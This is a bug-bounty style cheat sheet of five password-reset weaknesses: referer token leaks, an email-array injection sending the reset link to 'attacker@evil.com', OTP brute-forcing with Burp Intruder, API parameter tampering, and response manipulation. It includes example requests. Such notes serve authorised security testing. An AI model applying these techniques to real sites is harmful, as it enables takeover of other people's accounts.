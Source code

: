 Common security flaws in password reset functionality compiled from twitter, writeups, disclosed reports:

1. Password Reset Token Leak Via Referrer

The HTTP referer is an optional HTTP header field that identifies the address of the webpage which is linked to the resource being requested.
The Referer request header contains the address of the previous web page from which a link to the currently requested page was followed

Exploitation
Request password reset to your email address
Click on the password reset link
Dont change password
Click any 3rd party websites(eg: Facebook, twitter)
Intercept the request in burpsuite proxy
Check if the referer header is leaking password reset token.

2. Sending an array of email addresses instead of a single email address.

In this attack the The attacker can send a password reset link to an arbitrary email by sending an array of email addresses instead of a single email address and It could lead to full account takeover.

POST https://example.com/api/v1/password_reset HTTP/1.1
Original Request Body:
{“email_address”:”xyz@gmail.com”}
Modified Request Body:
{“email_address”:[“admin@breadcrumb.com”,”attacker@evil.com”]}

In this way, the password reset link get send to both victim as well as attacker. And the attacker can use it to gain Full account Takeover.

3. Bruteforcing OTP for Reseting Password.

Now, In case The password reset functionality of application is based on OTP validation.
Many program accepts No rate limit as acceptable risk. So, Bruteforcing OTP is worth trying.
You can reset the password of an account by intercepting the request for OTP validation and bruteforcing the 6 digit number.
Using this, it is possible to change and reset the password of any account, by changing the user data and brute-forcing the reset OTP.

    Exploitation
      1. Start the Burp Suite and Intercept the password reset request
      2.Send to intruder
      3.Use null payload

4.  Full Account Takeover via Changing Email And Password of any User through API Parameters
    Exploitation

        1. Attacker have to login with their account and Go to the Change password function
        2. Start the Burp Suite and Intercept the request
        3. After intercepting the request sent it to repeater and modify parameters Email and Password
          POST /api/changepass
          [...]
          ("form": {"email":"victim@email.tld","password":"12345678"})




5.  Response manipulation: Replace Bad Response With Good One

Look for Request and Response like these
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)

Change Response
HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)

